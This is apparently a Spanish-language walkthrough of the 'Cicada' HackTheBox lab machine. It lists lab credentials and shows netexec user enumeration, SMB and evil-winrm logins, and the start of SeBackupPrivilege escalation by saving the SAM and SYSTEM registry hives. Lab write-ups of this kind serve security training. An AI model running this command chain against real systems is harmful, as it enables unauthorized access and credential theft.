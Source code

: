 Y ahora con las credenciales que tenemos vamos a listar todos los usuario, el netexec nos va a mostrar parámetros adicionales del usuario, como la descripción, membresias de grupo e información de perfil. A diferencia del [[impacket-lookupsid]] que solamente muestra los usuarios
```
netexec smb 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```

![[Cicada16.png]]
 Obtenemos las credenciales``david.orelious:aRt$Lp#7t*VQ!3``

----
# Conexion usando credenciales a [[smb]], leemos un script y conexion con [[evil-winrm]]

Nos vamos a conectar usando las credenciales que encontramos con `smbclient //cicada.htb/DEV -U 'david.orelious%aRt$Lp#7t*VQ!3'`

![[Cicada17.png]]
pudimos entrar al /dev y descargamos el backup_script.ps1


Abrimos el archivo *backup_script.ps1* con [[cat]] usando el comando `cat Backup_script.ps1`

![[Cicada18.png]]
Obtenemos estas credenciales:   emily.oscars:Q!3@Lp#M6b*7t*Vt

Y ahora con [[evil-winrm]] nos vamos a conectar usando `evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' -P 5985`


![[Cicada19.png]]

-------
# Escalada de privilegios con [[SeBackupPrivilege]]

Usamos [[whoami]] con el comando `whoami /all`

![[Cicada25.png]]
Vemos que tenemos el SeBackupPrivilege

[Usamos este articulo para guiarnos en la escalada](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)

Use [[cd]] para meterme en la carpeta raiz del sistema, con [[mkdir]] cree una carpeta y despues con [[reg save]]  para ver las subclaves, entradas y valores especificados del Registro en un archivo especificado.
```
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```
![[Cicada20.png]]
